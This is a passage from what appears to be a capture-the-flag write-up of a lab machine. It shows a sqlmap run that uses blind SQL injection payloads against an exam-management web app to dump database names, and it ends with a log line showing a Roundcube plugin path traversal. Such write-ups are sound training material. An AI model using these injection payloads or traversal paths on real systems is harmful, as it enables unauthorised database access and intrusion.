 exam                    [Status: 200, Size: 17375, Words: 3222, Lines: 348, Duration: 138ms]
```
The webpage on the VHOST, hosts ```Examination Management System 2021 Developed By: oretnom23 ``` after some googleing I've found a entry on ```Exploit-DB``` maybe it will provide us some foothold.

https://www.exploit-db.com/exploits/50725

## Foothold
### SQLMAP
With the help of the exploit, lets dump some databases:
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://exam.seventeen.htb/?p=take_exam&id=1" --dbs
        ___
       __H__                                                                                                                                                
 ___ ___[,]_____ ___ ___  {1.6.6#stable}                                                                                                                    
|_ -| . [.]     | .'| . |                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:07:39 /2022-07-20/

[11:07:39] [INFO] resuming back-end DBMS 'mysql' 
[11:07:39] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=96a18a67b8c...03b1e69fcd'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 1565=1565 AND 'Vlli'='Vlli

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=take_exam&id=1' AND (SELECT 8047 FROM (SELECT(SLEEP(5)))Verc) AND 'RSwQ'='RSwQ
---
[11:07:41] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.2.34, PHP
back-end DBMS: MySQL >= 5.0.12
[11:07:41] [INFO] fetching database names
[11:07:41] [INFO] fetching number of databases
[11:07:41] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[11:07:41] [INFO] retrieved: 4
[11:07:42] [INFO] retrieved: information_schema
[11:07:47] [INFO] retrieved: db_sfms
[11:07:49] [INFO] retrieved: erms_db
[11:07:51] [INFO] retrieved: roundcubedb
available databases [4]:
[*] db_sfms
[*] erms_db
[*] information_schema
[*] roundcubedb


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)